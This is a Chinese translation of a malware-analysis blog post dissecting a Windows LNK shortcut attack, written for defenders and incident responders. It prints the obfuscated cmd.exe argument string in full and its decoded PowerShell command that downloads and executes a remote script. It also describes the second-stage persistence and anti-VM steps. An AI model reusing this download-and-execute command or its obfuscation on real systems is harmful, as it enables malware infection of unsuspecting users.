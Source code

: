 ```yaml
---
title: 看我如何分析 Windows LNK 檔案攻擊
layout: post
author: JohnThunder
source-url: https://dexters-lab.net/2019/02/16/analyzing-the-windows-lnk-file-attack-method/
tags:
- Malware
- DFIR
---
```


# **看我如何分析 Windows LNK 檔案攻擊**

**翻譯文章來源:** dexters-lab.net

**原文**：https://dexters-lab.net/2019/02/16/analyzing-the-windows-lnk-file-attack-method/

最近我的一個朋友分享了一個有趣的惡意樣本，它是一個微軟捷徑檔（LNK檔案），點擊（執行）後導致感染，在研究之前我並不知道2017的時候就有這樣的攻擊手法，這種類型的攻擊也有所增加，我感到很驚訝。
在這篇文章中，我們將分析 LNK 檔案惡意軟體並揭示攻擊者如何使用多層混淆來逃避 AV 並最終丟棄惡意二進制檔案，我們還將研究如何對每個層進行去解混淆，並了解代碼正在做什麼。



## **動機**

令我感興趣的原因是因為樣本本身看起來十分無辜，以及從社交工程的角度看它是多麼有說服力。作為一個捷徑，它對普通用戶來說並不可疑，因為它不是EXE。接下來，當用戶點擊時，會彈出一個瀏覽器視窗，它會打開鏈接 [https://get.adobe.com/br/flashplayer/](https://get.adobe.com/br/flashplayer/) 這會讓用戶認為他的系統中缺少一個flash插件，這就是為什麼他無法打開/執行該檔案，但一旦他安裝了 Flash 播放器，當他再次嘗試打開捷徑且意識到它只是一個垃圾檔案時，已經太晚了。

但實際發生的是它在背景中通過 shell 命令執行 Powershell 命令來下載 Powershell 腳本，該腳本執行主要惡意檔案的實際下載和安裝。它下載的檔案是一個 BMP 檔案，它看起來是一個無辜的圖像檔案，但它實際上是一個偽裝的 Powershell 檔案。



## **什麼是LNK檔案？**
LNK 是 Microsoft Windows 用於指向可執行檔案或應用程序的捷徑方式檔案的檔案副檔名。LNK 檔案通常用於創建開始菜單和桌面快捷方式。LNK代表LiNK。LNK檔案可以通過更改圖標偽裝成合法檔案，但在此案例並沒有完成。


## **基本分析**
以下是一般檔案屬性的外觀。

[![](https://dexters-lab.net/2019/02/16/analyzing-the-windows-lnk-file-attack-method/file-type.png "惡意鏈接檔案")](https://dexters-lab.net/2019/02/16/analyzing-the-windows-lnk-file-attack-method/file-type.png)

看一下_Shortcut_選項卡會給我們提供更多細節，下面是它的樣子。

[![](https://dexters-lab.net/2019/02/16/analyzing-the-windows-lnk-file-attack-method/lnk-file-target.png "LNK檔案定位應用程序")](https://dexters-lab.net/2019/02/16/analyzing-the-windows-lnk-file-attack-method/lnk-file-target.png)

正如您在 Target 欄位中看到的那樣，它指向 cmd.exe 並帶有一些參數。這是在執行此 LNK 檔案時運行的命令。但這不是整個命令。  
捷徑的 Target 欄位最大為260個字元。任何比這更長的內容都不可見。但是 command line 參數的最大長度為 4096 個字符，因此我們無法在上面的窗口中看到整個命令。我必須用另一個工具來提取整個命令。

## **深入研究 LNK 檔案格式**

使用 LNK 檔案分析工具，我們可以設法獲得整個嵌入在檔案裏面的命令，如下所示


[![](https://dexters-lab.net/2019/02/16/analyzing-the-windows-lnk-file-attack-method/lnk-file-cmd-report.png "Extracting command from LNK file")](https://dexters-lab.net/2019/02/16/analyzing-the-windows-lnk-file-attack-method/lnk-file-cmd-report.png)


根據上面提取出的 LNK 檔案內容我們可以找到一些有趣的欄位：
| KEY | VALUE |
| --- | --- |
| Relative path | ..\\..\\..\\..\\Windows\\system32\\cmd.exe |
| Working Directory | %SystemRoot%\\System32 |
| Arguments | /V /C set x4OAGWfxlES02z6NnUkK=2whttpr0&&… |

讓我們仔細看看 Arguments，如下所示：

    <c:\\Windows\\system32\\cmd.exe /V /C set x4OAGWfxlES02z6NnUkK=2whttpr0&&set L1U03HmUO6B9IcurCNNlo4=.com&& echo | start %x4OAGWfxlES02z6NnUkK:~2,4%s://get.adobe%L1U03HmUO6B9IcurCNNlo4%/br/flashplayer/ &&set aZM4j3ZhPLBn9MpuxaO= -win 1 &&set MlyavWfE=ndows&&set jA8Axao1xcZ=iEx&&set WMkgA3uXa1pXx=tRi&&set KNhGmAqHG5=bJe&&set 4kxhaz6bqqKC=LOad&&set rwZCnSC7T=nop&&set jcCvC=NEw&&set ZTVZ=wEbc&&set DABThzRuTT2hYjVOy=nt).dow&&set cwdOsPOdA08SZaXVp1eFR=t NeT.&&set Rb=Ers&&set j4HfRAqYXcRZ3R=hEll&&set Kpl01SsXY5tthb1=.bmp&&set vh7q6Aq0zZVLclPm=\\v1.0\\&&set 2Mh=pOw&&set 8riacao=%x4OAGWfxlES02z6NnUkK:~2,4%s://s3-eu-west-1.amazonaws%L1U03HmUO6B9IcurCNNlo4%/juremasobra2/jureklarj934t9oi4%Kpl01SsXY5tthb1%&&@echo off && %SystemDrive% && cd\ && cd %SystemRoot%\\System32 &&echo %jA8Axao1xcZ%("%jA8Axao1xcZ%(!jcCvC!-o%KNhGmAqHG5%c!cwdOsPOdA08SZaXVp1eFR!!ZTVZ!Lie!DABThzRuTT2hYjVOy!n%4kxhaz6bqqKC%S%WMkgA3uXa1pXx%NG('%x4OAGWfxlES02z6NnUkK:~2,4%s://s3-eu-west-1.amazonaws%L1U03HmUO6B9IcurCNNlo4%/juremasobra2/jureklarj934t9oi4%Kpl01SsXY5tthb1%')"); | Wi!MlyavWfE!!2Mh!!Rb!!j4HfRAqYXcRZ3R!!vh7q6Aq0zZVLclPm!!2Mh!!Rb!!j4HfRAqYXcRZ3R! -!rwZCnSC7T!!aZM4j3ZhPLBn9MpuxaO! -  >

    set x4OAGWfxlES02z6NnUkK=2whttpr0
    set L1U03HmUO6B9IcurCNNlo4=.com
    echo | start         %x4OAGWfxlES02z6NnUkK:~2,4%s://get.adobe%L1U03HmUO6B9IcurCNNlo4%/br/flashplayer/
    set aZM4j3ZhPLBn9MpuxaO= -win 1
    set MlyavWfE=ndows
    set jA8Axao1xcZ=iEx
    set WMkgA3uXa1pXx=tRi
    set KNhGmAqHG5=bJe
    set 4kxhaz6bqqKC=LOad
    set rwZCnSC7T=nop
    set jcCvC=NEw
    set ZTVZ=wEbc
    set DABThzRuTT2hYjVOy=nt).dow
    set cwdOsPOdA08SZaXVp1eFR=t NeT.
    set Rb=Ers
    set j4HfRAqYXcRZ3R=hEll
    set Kpl01SsXY5tthb1=.bmp
    set vh7q6Aq0zZVLclPm=\\v1.0\\
    set 2Mh=pOw
    set 8riacao=%x4OAGWfxlES02z6NnUkK:~2,4%s://s3-eu-west-1.amazonaws%L1U03HmUO6B9IcurCNNlo4%/juremasobra2/jureklarj934t9oi4%Kpl01SsXY5tthb1%
    @echo off
    %SystemDrive%
    cd\\
    cd %SystemRoot%\\System32
    echo %jA8Axao1xcZ%("%jA8Axao1xcZ%(!jcCvC!-o%KNhGmAqHG5%c!cwdOsPOdA08SZaXVp1eFR!!ZTVZ!Lie!DABThzRuTT2hYjVOy!n%4kxhaz6bqqKC%S%WMkgA3uXa1pXx%NG('%x4OAGWfxlES02z6NnUkK:~2,4%s://s3-eu-west-1.amazonaws%L1U03HmUO6B9IcurCNNlo4%/juremasobra2/jureklarj934t9oi4%Kpl01SsXY5tthb1%')"); | Wi!MlyavWfE!!2Mh!!Rb!!j4HfRAqYXcRZ3R!!vh7q6Aq0zZVLclPm!!2Mh!!Rb!!j4HfRAqYXcRZ3R! -!rwZCnSC7T!!aZM4j3ZhPLBn9MpuxaO! --%ProgramFiles%\\Internet Explorer\\iexplore.exe

每一行都是shell命令。第一行是設置一些環境變數然後在第3行，最後一行使用這些環境變數來組裝這些變量並執行它們。這種組裝和反組譯變數名的方法使代碼更難閱讀。

上面混淆的 shell 腳本解碼為以下兩個命令：

1.  `C:\Windows\system32\cmd.exe /V /C set x4OAGWfxlES02z6NnUkK=2whttpr0&&set L1U03HmUO6B9IcurCNNlo4=.com && echo | start https://get.adobe.com/br/flashplayer/` 此命令在瀏覽器打開adobe flashplayer安裝頁面。
2.  `echo iEx("iEx(New-Object Net.WebClient).DownloadString('hxxps://s3-eu-west-1.amazonaws.com/juremasobra2/jureklarj934t9oi4.bmp')"); | WindowsPowershell\v1.0\Powershell -nop -win 1 --%ProgramFiles%\\Internet Explorer\\iexplore.exe` 這個命令實際下載了第二層 Powershell ，該檔案偽裝成 URL 中的 BMP 檔案


## **解碼第二層 Powershell**

由上面的LNK檔案下載的Powershell腳本可以在此[點我](https://github.com/d3xt3rsl4b/analyzed-malware/blob/master/lnk_malware/jureklarj934t9oi4.ps1) fd60a8b790b42f0c416c28e4ad22dc317ad8fbc5 上找到，它被嚴重混淆，使用[ISESteriods](http://www.powertheshell.com/obfuscationmode/)進行混淆。我確實設法解碼腳本，可以在此[點我](https://github.com/d3xt3rsl4b/analyzed-malware/blob/master/lnk_malware/decoded.ps1)上找到可讀代碼。

執行腳本執行以下操作：

1.  檢查它是否在虛擬機內部運行，如果它正在運行，則它不執行其餘命令並退出。否則，它將處理為後續步驟。該腳本檢查以下虛擬機列表：
    1.  VirtualBox的
    2.  VMware虛擬平台
    3.  虛擬機
    4.  HVM domU
2.  然後它創建一個名為 444444444444 的 Mutex，這是為了確保該電腦只運行一個這個程序。
3.  如果上一步成功，則下載一個zip，再次偽裝成一個圖像檔案，來自以下URL hxxps：//s3-eu-west-1[.]amazonaws[.]com/juremasobra2/image2.png，Hash 即887eafc19419df5119a829fd05d898503b7a0217"
4.  將PNG檔案重命名為ZIP檔案
5.  從包含DLL 92be09ca93ad6a8b04b7e2e2087fc6884fef1f63 的zip檔案中提取內容，並將此檔案複製到啟動資料夾。
6.  然後它通過在 Startup 資料夾中創建捷徑方式檔案來讓它能夠繼續存在電腦裡面，此快捷方式檔案（第二個 LNK）在命令 shell 中調用 run32.dll 來運行惡意 DLL 二進制檔案。由於 run32.dll 是一個內置的簽名二進制檔案，因此不會引起更多懷疑。例如，此命令 _rundll32.exe shell32.dll，ShellExec\_RunDLL notepad.exe_ 將啟動 notepad.exe。
7.  然後腳本會停留 40 秒，然後重新啟動機器。

通過上述攻擊，技術攻擊者試圖將其惡意DLL二進制檔案隱藏在合法二進制檔案後面。

可以在此[鏈接](https://blogs.technet.microsoft.com/motiba/2017/11/04/chasing-adversaries-with-autoruns-evading-techniques-and-countermeasures/)上找到有關這手法的更多信息


## **所有的檔案**

| SHA1 | Description |
| --- | --- |
| af6df15050dea1a756bb99bb0597d7072c2aee4c | 惡意 LNK 檔案 |
| fd60a8b790b42f0c416c28e4ad22dc317ad8fbc5 | Powershell 檔案由上述 LNK 下載 |
| 887eafc19419df5119a829fd05d898503b7a0217 | ZIP 檔案由上述 Powershell 下載 |
| 92be09ca93ad6a8b04b7e2e2087fc6884fef1f63 | 惡意 DLL 檔案由上述 ZIP 檔案解開 |

## **參考**

1.  [LNK file format](https://www.dfir.training/windows/lnk/116-windows-shortcut-file-lnk-format/file)
2.  [Other attacks similar to this](https://securitynews.sonicwall.com/xmlpost/lnk-file-is-actively-being-leveraged-to-run-file-less-powershell-script/)
3.  [TreadMicro blog no treads on this type of attacks](https://blog.trendmicro.com/trendlabs-security-intelligence/rising-trend-attackers-using-lnk-files-download-malware/)